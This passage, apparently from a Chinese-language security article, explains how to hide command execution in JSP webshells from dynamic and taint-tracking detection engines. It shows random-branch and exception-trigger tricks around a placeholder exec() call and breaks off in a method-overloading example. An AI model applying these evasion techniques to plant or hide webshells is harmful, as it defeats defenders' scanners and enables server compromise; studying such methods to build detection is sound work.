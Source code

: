SunCommandLineLauncher类的launch方法中就存在runtime.getRuntime().exec()的调用。对于动态引擎来说，很容易发现该问题。因此如下面介绍几种可行的方法。

* 使用随机数

  ```java
  <%    
  		Random r = new Random();
      int d1 = r.nextInt(2); 
      int d2 = r.nextInt(2);
      if (d1 == d2){
          exec();
      }else{
          
      }
  %>
  ```

  如果引擎会在沙箱运行程序，则由于Random的随机性，可能会进入else分支，从而检测不到恶意代码被运行，模拟运行也可能会因为无法判断两个nextInt()对象会相同从而检测不到。而我们把random的范围设置的小一点，则在实际运行时，可以保证有一个较高的概率，在我们运行代码时程序被运行。事实上这里的nextInt参数也可以动态传入，进一步区分引擎运行和我们人工运行的概率区别。
* 利用异常捕获

  利用动态沙箱引擎无法准确判断并模拟用户的输入内容，进行绕过。

  ```java
  <%
      try{
          if (request.getParameter("1")!=null){
              int a = 1/Integer.parseInt(request.getParameter("1"));
          }
  		}catch ( NumberFormatException e){
  		
      }catch (Exception e){
          exec();
      }
  %>
  ```

  正常来说程序不会进入catch块，当请求的参数中包含?1=0时，程序会触发零除异常，进入catch块执行恶意操作。

### （三）模拟污点执行绕过

上面介绍了几种的方法，但是实际的引擎往往会结合动态检测或者模拟动态检测等技术进行检测和拦截。下面介绍动态类型的检测绕过思路。

可以利用Java的语言特性误导引擎对方法调用的识别

* 利用方法”重载”

  首先提出一个问题。在java中，一个类如果长这样：

  ```java
  Class B {
  	public Object print(Object str){
  		System.out.println("B"+str);
  	}
  }
  
  new B().print("test");
  ```
